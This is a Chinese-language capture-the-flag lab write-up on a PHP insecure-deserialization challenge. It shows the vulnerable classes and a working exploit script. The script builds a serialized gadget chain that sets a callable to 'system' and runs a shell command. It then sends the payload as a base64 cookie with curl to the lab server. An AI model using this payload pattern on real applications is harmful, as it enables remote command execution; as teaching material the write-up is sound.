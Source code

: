 # LAB - Serializable Magic Cat
###### tags: `資安` `Web`

## 題目解析
畫面中可以看到一個 unserialize 後的 cat 物件內容跟有告訴你可以看 source code。
![](https://i.imgur.com/fmkaXEt.png)

## 解題流程
從 source code 中可以看到 3 個 class。
```php=
class Magic
{
    function cast($spell)
    {
        echo "<script>alert('MAGIC, $spell!');</script>";
    }
}

// Useless class?
class Caster
{
    public $cast_func = 'intval';
    function cast($val)
    {
        return ($this->cast_func)($val);
    }
}


class Cat
{
    public $magic;
    public $spell;
    function __construct($spell)
    {
        $this->magic = new Magic();
        $this->spell = $spell;
    }
    function __wakeup()
    {
        echo "Cat Wakeup!\n";
        $this->magic->cast($this->spell);
    }
}
```

而 server 在做的事就是若你有 名為 cat 的 cookie，他就你做反序列化輸出，沒有就直接自行 new 一個並顯示。

php 在反序列化會自動執行 \_\_wakeup() 這個 magic function，這邊的 \_\_wakeup() function 是傳 spell 給 magic attrubute 的 cast() function，而 magic 這個物件是在 consturctor() 也就是 new 一個 cat 物件的時候 new 的一個 Magic 這個物件，因此我們可以自己修改一下這幾個 class。

首先可以把 Cat 的 Magic attribute　改成 new Caster 物件，然後 Caster 物件的 cast_func 是用作 cast() 裡的 function 名稱，因此我們要把 cast_func 改成 system，這樣 spell 只要設成我們想要執行的指令，序列化後做 base64 encode，當成 cookie 傳給 server，就可以透過反序列化執行 shell command。

```php=
<?php
class Magic
{
    function cast($spell)
    {
        echo "<script>alert('MAGIC, $spell!');</script>";
    }
}

class Caster
{
    public $cast_func = 'system';
    function cast($val)
    {
        return ($this->cast_func)($val);
    }
}

class Cat
{
    public $magic;
    public $spell;
    function __construct($spell)
    {
        $this->magic = new Caster();
        $this->spell = $spell;
    }
    function __wakeup()
    {
        echo "Cat Wakeup!\n";
        $this->magic->cast($this->spell);
    }
}

$cat = new Cat('cd /; cat flag_23907376917516c8');
$cat = base64_encode(serialize($cat));
//echo unserialize(base64_decode($cat));
system("curl http://h4ck3r.quest:8602/ --cookie 'cat=$cat'");
?>
```

稍微試一下就可以找到 FLAG 了！

## FLAG 截圖
![](https://i.imgur.com/hiUh9cZ.png)

